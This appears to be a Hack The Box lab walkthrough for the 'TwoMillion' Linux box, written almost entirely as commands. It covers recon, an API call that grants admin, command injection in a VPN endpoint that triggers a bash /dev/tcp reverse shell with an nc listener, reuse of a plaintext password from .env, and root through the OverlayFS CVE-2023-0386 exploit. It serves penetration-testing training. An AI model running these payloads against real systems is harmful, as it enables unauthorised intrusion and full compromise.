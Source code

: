 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)

## 🔍 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.10.11
nmap -p 22,80 -sCV 10.10.10.11
```

### Host File Entry
```bash
echo "10.10.10.11 2million.htb" | sudo tee -a /etc/hosts
```

### [FFUF – Subdomain Enumeration](HTTP)
```bash
ffuf -u http://10.10.10.11 -H "Host: FUZZ.2million.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -mc all -ac
```

### Feroxbuster – Directory Brute Force
```bash
feroxbuster -u http://2million.htb
```

---

## 🎟️ Invite Code Challenge

### ROT13 Decode (CLI)
```bash
curl -s -X POST http://2million.htb/api/v1/invite/how/to/generate | jq -r '.data.data' | tr 'a-zA-Z' 'n-za-mN-ZA-M'
```

### Generate Invite Code
```bash
curl -X POST http://2million.htb/api/v1/invite/generate -s | jq .data.code | xargs echo | base64 -d
```

---

## 🔐 Login & API Enumeration

### Get API Description
```bash
curl -s http://2million.htb/api/v1 | jq .
```

---

## 👮 Admin Privilege Escalation via API

### Gain Admin Privs
```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update \
-H "Content-Type: application/json" \
-d '{"email":"<your_email>", "is_admin":1}' \
-b cookies.txt
```

### Confirm Admin
```bash
curl -s http://2million.htb/api/v1/admin/auth -b cookies.txt
```

---

## 💥 Command Injection (Admin VPN API)

### Basic Test
```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
-H "Content-Type: application/json" \
-d '{"username":"test; id #"}' -b cookies.txt
```

### Reverse Shell
```bash
# Listener
nc -lnvp 443

# Trigger
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
-H "Content-Type: application/json" \
-d '{"username":"; bash -c \"bash -i >& /dev/tcp/<your_ip>/443 0>&1\" #"}' \
-b cookies.txt
```

---

## 🧑‍💻 Shell as `admin`

### Credential in .env
```bash
cat /var/www/html/.env
# admin : SuperDuperPass123
```

### [SSH](SSH) / su as admin
```bash
su - admin
# or
sshpass -p 'SuperDuperPass123' ssh admin@2million.htb
```

---

## 🧑‍🔬 Privilege Escalation to root

### Kernel Info
```bash
uname -a
cat /etc/lsb-release
```

### Vulnerability: CVE-2023-0386 (OverlayFS)
Exploit repo: https://github.com/xkaneiki/CVE-2023-0386

### Steps
```bash
# Upload & unzip
scp CVE-2023-0386-main.zip admin@2million.htb:/tmp/
unzip CVE-2023-0386-main.zip && cd CVE-2023-0386-main

# Build
make all

# Start fuse script in terminal 1
./fuse ./ovlcap/lower ./gc

# Run exploit in terminal 2
./exp
```

If successful:
```bash
whoami
# root
```

---

## 📦 Beyond Root – Decode `thank_you.json`

### Decode Steps (CyberChef or CLI)
1. URL Decode
2. From Hex
3. From Base64
4. XOR with key: `HackTheBox`